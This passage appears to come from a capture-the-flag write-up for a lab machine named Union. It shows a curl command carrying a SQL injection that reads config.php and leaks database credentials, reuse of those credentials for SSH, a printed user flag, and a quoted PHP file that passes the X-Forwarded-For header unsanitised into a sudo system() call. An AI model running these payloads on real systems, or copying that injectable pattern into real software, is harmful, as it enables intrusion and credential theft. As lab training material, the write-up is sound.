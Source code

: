 ```sh
┌──(root💀kali)-[~/htb/unicode]
└─# curl -s 10.10.11.128/index.php -d "player=pencer' union select load_file('/var/www/html/config.php') -- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'
<?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-11qual-global-pw";
  $dbname = "november";
  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

Those credentials are reused for SSH access:

```sh
┌──(root💀kali)-[~/htb/unicode]
└─# ssh uhc@10.10.11.128
uhc@10.10.11.128's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)
Last login: Mon Nov  8 21:19:42 2021 from 10.10.14.8
uhc@union:~$
```

## User Flag

At last we're in but only as a low level user. Let's check who we are then grab the user flag:

```text
uhc@union:~$ id
uid=1001(uhc) gid=1001(uhc) groups=1001(uhc)

uhc@union:~$ cat user.txt 
cc9a85cd4613c6e45c718f8c2c075ff7
```

## Source Code Review

I didn't find a lot looking around the box, eventually looked to the web root and the firewall.php one is interesting:

```text
uhc@union:~$ cat /var/www/html/firewall.php
<?php
require('config.php');
<SNIP>
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>
              <h1 class="text-white">Welcome Back!</h1>
              <h3 class="text-white">Your IP Address has now been granted SSH Access.</h3>
                </div>
        </section>
</div>
```

